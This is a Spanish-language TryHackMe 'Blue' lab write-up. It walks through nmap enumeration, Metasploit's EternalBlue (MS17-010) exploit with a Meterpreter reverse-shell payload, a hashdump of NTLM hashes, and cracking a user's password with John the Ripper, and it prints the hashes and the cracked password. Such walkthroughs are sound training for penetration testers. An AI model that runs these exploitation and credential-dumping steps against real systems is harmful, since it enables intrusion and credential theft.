# Blue — TryHackMe Writeup

> Sala: [Blue](https://tryhackme.com/room/blue)
> Dificultad: Easy
> Técnicas: Enumeración SMB, MS17-010 (EternalBlue), Metasploit, escalada de privilegios en Windows



## Resumen

Primera máquina Windows de la ruta. El vector de explotación fue
**MS17-010 (EternalBlue)**, una vulnerabilidad crítica de ejecución remota
de código en la implementación de SMBv1 de Windows Server 2008 R2/2012 sin
parchear, explotada con Metasploit. A diferencia de las máquinas Linux
previas, la explotación otorgó privilegios de `NT AUTHORITY\SYSTEM`
(máximo nivel) de forma inmediata, sin necesidad de una fase de escalada
de privilegios independiente — la vulnerabilidad opera a nivel de kernel.
Se complementó con post-explotación clásica de Windows: extracción de
hashes NTLM con `hashdump` y cracking con John the Ripper, además de la
localización de tres flags distribuidas en ubicaciones estratégicas del
sistema de archivos.

## Objetivo

Primera máquina Windows de la ruta: comprometer el sistema explotando la
vulnerabilidad **MS17-010 (EternalBlue)** en el servicio SMB, y escalar
privilegios hasta obtener acceso como SYSTEM.

---

## 1. Reconocimiento

```bash
nmap -sV -v <IP>
```




### Puertos y servicios encontrados

| Puerto | Servicio | Detalle |
|--------|----------|---------|
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds | **Microsoft Windows Server 2008 R2 - 2012** |
| 3389 | ms-wbt-server | Microsoft Terminal Service (RDP) |
| 49152-49175 | msrpc | Puertos RPC dinámicos altos (típicos de Windows) |

### Pregunta

**¿Cuántos puertos están abiertos con número de puerto menor a 1000?**
Contando: `135, 139, 445, 3389`... espera, `3389` es mayor a 1000, así que
los que realmente califican son: `135, 139, 445` → **3 puertos** bajo 1000.
Los puertos `49152-49175` son rangos altos dinámicos de RPC, típicos de
Windows para servicios efímeros, y quedan fuera del conteo.

→ Respuesta: **3 puertos**

### Pregunta

**¿A qué es vulnerable esta máquina? (formato ms??-???)**

**Razonamiento:** el dato clave es la versión exacta que nos dio el nmap en
el puerto 445: **Windows Server 2008 R2 - 2012**, corriendo el servicio
SMB (`microsoft-ds`). Este rango de versiones de Windows, sin los parches
de seguridad correspondientes, es ampliamente conocido en la comunidad de
seguridad por ser vulnerable a **EternalBlue** — un exploit filtrado del
NSA (grupo Shadow Brokers, 2017) que abusa de un desbordamiento de buffer
en la implementación del protocolo **SMBv1**, permitiendo ejecución remota
de código sin autenticación.

Buscando en bases de datos públicas de vulnerabilidades (`searchsploit`,
Microsoft Security Bulletins, o simplemente "Windows Server 2008 R2 SMB
RCE exploit") el identificador oficial de este boletín de seguridad es:

→ Respuesta: **MS17-010**

---

## 2. Enumeración de servicios

### Confirmar la vulnerabilidad de forma activa

Inferir la vulnerabilidad únicamente por el número de versión de Windows
reportado es un buen punto de partida para generar una hipótesis, pero no
es una prueba concluyente por sí sola — un sistema puede recibir parches
individuales sin que el string de versión que reporta el servicio cambie.
La forma más confiable es **probar activamente** contra el servicio real
con un script diseñado específicamente para detectar la vulnerabilidad:

```bash
nmap --script smb-vuln-ms17-010 -p445 <IP>
```



### Resultado

```
VULNERABLE:
Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
State: VULNERABLE
IDs: CVE:CVE-2017-0143
Risk factor: HIGH
```

Confirmado de forma directa e inequívoca, con el CVE oficial asociado —
mucho más sólido que basarse solo en la versión reportada por el banner
de `nmap -sV`.

---

## 3. Explotación inicial

### Consideración de vía de explotación

Antes de explotar, se evaluaron dos caminos posibles:

1. **Manual**, con el repo [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
   (scripts de Python que reimplementan el exploit sin depender de Metasploit
   — útil de practicar porque Metasploit suele estar restringido o prohibido
   en el examen de OSCP).
2. **Con Metasploit**, usando el módulo oficial
   `exploit/windows/smb/ms17_010_eternalblue` — más directo y guiado.



### Explotación con Metasploit

Abrimos la consola de Metasploit y buscamos módulos relacionados con la
vulnerabilidad ya confirmada:

```bash
msfconsole
search ms17
```



### Pregunta

**Encuentra el código de explotación que vamos a correr. ¿Cuál es la ruta completa?**
→ Respuesta: **`exploit/windows/smb/ms17_010_eternalblue`**

Cargamos el módulo y revisamos sus opciones configurables:

```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
```



### Analizando las opciones

**Módulo del exploit:**
| Opción | Requerido | Valor actual |
|---|---|---|
| `RHOSTS` | **Sí** | *(vacío, hay que configurarlo)* |
| `RPORT` | Sí | `445` (ya viene por defecto) |
| `SMBDomain` / `SMBPass` / `SMBUser` | No | — |
| `VERIFY_ARCH` / `VERIFY_TARGET` | Sí | `true` (por defecto) |

**Payload (reverse shell que se entregará tras la explotación):**
| Opción | Requerido | Valor actual |
|---|---|---|
| `LHOST` | Sí | ya autocompletado con la IP de la AttackBox |
| `LPORT` | Sí | `4444` (por defecto) |

De todas las opciones requeridas (`yes`), la única que **no** trae un valor
por defecto y necesita configuración manual es `RHOSTS` — el resto ya
vienen con valores razonables preestablecidos por el propio módulo.

```bash
set RHOSTS <IP>
```

### Pregunta

**Muestra las opciones y configura el único valor requerido. ¿Cuál es el nombre de ese valor?**
→ Respuesta: **RHOSTS**

### Ejecución exitosa

Este exploit es conocido en la comunidad por ser **inestable** — puede
fallar varias veces (timeouts de socket) incluso con la configuración
correcta, debido a una condición de carrera en el proceso de "grooming"
de memoria del kernel que realiza antes de entregar el payload. Los dos
primeros intentos (`run`) fallaron con `Read timeout expired`, sin que
se creara ninguna sesión. Al cambiar el payload a Meterpreter y reintentar,
la explotación tuvo éxito al tercer intento:

```bash
set payload windows/x64/meterpreter/reverse_tcp
run
```



```
[*] Meterpreter session 1 opened (10.65.99.208:4444 -> 10.65.189.96:49295)

meterpreter > whoami
[-] Unknown command: whoami.
```

> **Nota:** Meterpreter no usa los comandos estándar de shell Linux como
> `whoami`/`id` — tiene su propio set de comandos. El equivalente correcto
> para ver el usuario/contexto de privilegios es `getuid`.

### Dato clave: privilegios obtenidos directamente

A diferencia de las máquinas Linux anteriores (donde primero se obtiene
un usuario limitado y **después** se busca una vía de escalada por
separado), este exploit específico **entrega privilegios máximos desde el
primer momento**, porque `EternalBlue` no abusa de una mala configuración
de usuario, sino de una vulnerabilidad a **nivel de kernel** en el propio
sistema operativo — el payload se ejecuta con el mismo nivel de privilegio
que el proceso del kernel que fue comprometido, que en Windows es la
cuenta de sistema más alta posible:

```bash
sessions -l
```



```
Information: NT AUTHORITY\SYSTEM @ WIN-JO6REVNMMMP
```

**`NT AUTHORITY\SYSTEM`** es el equivalente en Windows a `root` en Linux —
el nivel de privilegio más alto del sistema. Es decir, **en esta máquina la
escalada de privilegios ocurre de forma automática/implícita como parte del
propio exploit**, a diferencia de Vulnversity y Kenobi donde fue un paso
completamente separado (SUID, PATH hijacking) tras obtener acceso inicial.

### Actualización de sesión (shell → Meterpreter)

Se puso la sesión en segundo plano (`Ctrl+Z`) y se usó `sessions -u` para
asegurar una sesión completa de Meterpreter (con todas sus capacidades:
manejo de archivos, migración de proceso, captura de hashes, etc.):

```bash
sessions -u 1
```



```
[*] Meterpreter session 2 opened (10.65.99.208:4433 -> 10.65.189.96:49317)
```

### Sobre el módulo usado para convertir shell → Meterpreter

Al correr `sessions -u 1`, Metasploit usa internamente un módulo *post*
para hacer esa conversión (se puede ver reflejado en el propio log de
salida: `Executing 'post/multi/manage/shell_to_meterpreter'...`). La sala
pide identificar y usar ese módulo de forma manual para reforzar el
concepto:

```bash
use post/multi/manage/shell_to_meterpreter
show options
```



### Pregunta

**¿Cuál es el nombre del módulo post que convierte shell a Meterpreter?**
→ Respuesta: **`post/multi/manage/shell_to_meterpreter`**

### Pregunta

**Muestra las opciones, ¿qué opción se requiere cambiar?**
De las opciones marcadas como `Required: yes` (`HANDLER`, `LPORT`,
`SESSION`), la única sin un valor útil preestablecido es `SESSION`
(viene en `-1`, un valor placeholder que indica "sin configurar") —
necesita el número de sesión real, obtenido antes con `sessions -l`.
→ Respuesta: **SESSION**

### Ejecución del módulo post

```bash
set SESSION 1
run
```



```
[*] Meterpreter session 3 opened (10.65.99.208:4433 -> 10.65.189.96:49365)
```

Se confirma el funcionamiento del módulo (aunque en este caso particular
la sesión de origen ya era Meterpreter desde un inicio, al haber
configurado ese payload desde el principio del exploit) — quedan 3
sesiones activas en total, todas como `NT AUTHORITY\SYSTEM`.

---

## 4. Post-explotación: extracción y cracking de hashes

### Extracción de hashes con `hashdump`

Con privilegios de SYSTEM ya confirmados, usamos el comando de Meterpreter
que vuelca los hashes de contraseñas almacenados en la base de datos
**SAM** (*Security Account Manager*) — el archivo donde Windows guarda las
credenciales locales de todas las cuentas del sistema. Esta operación
requiere privilegios elevados, ya que ese archivo está protegido incluso
contra cuentas de administrador normales.

```bash
sessions -i 1
hashdump
```



### Resultado

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1002:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Cada línea sigue el formato `usuario:RID:hash_LM:hash_NTLM:::`.
`Administrator` y `Guest` son cuentas estándar que Windows crea por
defecto en toda instalación — el único usuario que no corresponde a una
cuenta de fábrica es **`Jon`**.

### Pregunta

**¿Cuál es el nombre del usuario no-default?**
→ Respuesta: **Jon**

### Cracking del hash NTLM

Aislamos el hash NTLM de `Jon` (la parte después del segundo `:` en la
línea de `hashdump`) — el hash LM anterior (`aad3b435b51404ee...`) es un
valor constante que indica que LM está deshabilitado, sin información real:

```
ffb43f0de35be4d9917ac0cc8ad57f8d
```

Se probaron dos métodos en paralelo, como verificación cruzada:

**Método 1 — Herramienta online (CrackStation o similar):**



**Método 2 — John the Ripper local:**
```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jon_hash.txt
john --format=NT jon_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



Ambos métodos coinciden en el mismo resultado, confirmando la contraseña.

### Pregunta

**Copia el hash a un archivo e investiga cómo crackearlo. ¿Cuál es la contraseña?**
→ Respuesta: **`alqfna22`**

---

## 5. Captura de flags

### Flag 1 — Raíz del sistema

La sala indica que la primera flag está en la **raíz del sistema**
(`C:\`, equivalente conceptual a `/` en Linux):

```bash
ls C:\\
```



Se confirma visualmente `flag1.txt` en el listado. La leemos:

```bash
cat C:\\flag1.txt
```


**Flag 1:** `[censurada — ver sección Flags]`

### Flag 2 — Ubicación donde Windows almacena contraseñas

> **Errata oficial de la sala:** esta flag puede ser eliminada
> ocasionalmente por el propio Windows debido a la ubicación donde vive.
> Si no aparece, puede ser necesario reiniciar la máquina y volver a
> correr el exploit.

**Razonamiento:** Windows almacena las contraseñas locales (hashes) en la
base de datos **SAM** (*Security Account Manager*), la misma que se
extrajo antes con `hashdump`. Ese archivo vive físicamente en:

```
C:\Windows\System32\config\SAM
```

Ese directorio (`config`) es donde Windows guarda los archivos de
"colmena" del registro (SAM, SYSTEM, SECURITY, SOFTWARE) — es la ubicación
técnica real de donde se derivan los hashes de contraseñas del sistema.

```bash
cd C:\\Windows\\System32\\config
ls
```



Se confirma `flag2.txt` (34 bytes) en el listado — no fue necesario
reiniciar la máquina en este caso, a pesar de la advertencia de la errata.

```bash
cat flag2.txt
```



**Flag 2:** `[censurada — ver sección Flags]`

### Flag 3 — "Un excelente lugar para hacer loot"

> **Hint de la sala:** *"This flag can be found in an excellent location
> to loot. After all, Administrators usually have pretty interesting
> things saved."*

**Primera hipótesis (parcialmente incorrecta):** el hint menciona
"Administrators", lo que llevó a suponer que la flag estaría en
`C:\Users\Administrator\Desktop` — ubicación clásica donde se guardan
archivos sensibles en sistemas Windows.

**Corrección real:** la flag apareció en cambio en
`C:\Users\Jon\Documents\flag3.txt` — el directorio del usuario `Jon`
(el mismo cuyo hash se crackeó antes), no el de `Administrator`.



```bash
cat flag3.txt
```

**Lección de esta corrección:** el hint de "Administrators" no era una
referencia literal a la ruta del usuario Administrator, sino más bien al
**concepto general** de que las cuentas con privilegios elevados (o que
fueron comprometidas específicamente, como `Jon`, del cual ya se extrajo
su contraseña) suelen tener archivos de valor guardados. Un hint de este
tipo se debe interpretar como una **categoría de lugar** ("carpetas
personales de usuarios con privilegios/interés"), no como una ruta
exacta — vale la pena revisar los directorios de **todos** los usuarios
no estándar encontrados durante la enumeración (recordemos que `Jon` ya
había sido identificado como el único usuario "no-default" desde el
`hashdump`), no asumir que se refiere únicamente a la cuenta literal
`Administrator`.

**Flag 3:** `[censurada — ver sección Flags]`

## Flags

- Flag 1: `[censurada]` — encontrada en `C:\flag1.txt`
- Flag 2: `[censurada]` — encontrada en `C:\Windows\System32\config\flag2.txt`
- Flag 3: `[censurada]` — encontrada en `C:\Users\Jon\Documents\flag3.txt`

*(Flags censuradas intencionalmente — sigue esta guía paso a paso para
obtenerlas tú mismo, en línea con las políticas de TryHackMe.)*

---

## Lecciones aprendidas

- **Inferir vulnerabilidad por versión es un buen punto de partida, pero
  no prueba concluyente.** Un sistema puede tener parches individuales sin
  que el string de versión del banner cambie — siempre conviene confirmar
  con un script de detección activo antes de lanzar un exploit (`nmap
  --script smb-vuln-ms17-010`).
- **Algunos exploits son inherentemente inestables**, incluso contra el
  objetivo correcto y bien configurado. `ms17_010_eternalblue` es un caso
  conocido de esto (condición de carrera en el "memory grooming" del
  kernel) — reintentar varias veces, o cambiar de payload, es una táctica
  válida y esperada, no un síntoma de que algo está mal configurado.
- **En vulnerabilidades a nivel de kernel, la "escalada de privilegios"
  puede ocurrir de forma implícita como parte de la explotación inicial**
  — a diferencia de una mala configuración de aplicación o de permisos de
  usuario (como en Vulnversity/Kenobi), que requiere un paso de post-
  explotación completamente separado.
- **Meterpreter no comparte comandos con una shell Linux estándar**
  (`whoami`/`id` no existen; el equivalente es `getuid`) — vale la pena
  familiarizarse con su propio set de comandos antes de asumir que todo
  se traduce 1:1.
- **`hashdump` + cracking offline es una técnica de post-explotación
  estándar en Windows**, equivalente en propósito a robar/copiar un
  archivo de credenciales en Linux (como la llave SSH de Kenobi) — el
  objetivo siempre es obtener material de autenticación reutilizable.
- **Los hints de las salas deben interpretarse como categorías, no como
  rutas literales.** "Administrators usually have interesting things
  saved" no señalaba la cuenta `Administrator` específicamente, sino la
  idea general de revisar carpetas personales de usuarios relevantes —
  en este caso, el usuario no-default (`Jon`) que ya había sido
  identificado como significativo desde pasos anteriores (`hashdump`).
  Vale la pena conectar pistas de distintas partes del reto entre sí, en
  vez de tratarlas como compartimentos aislados.
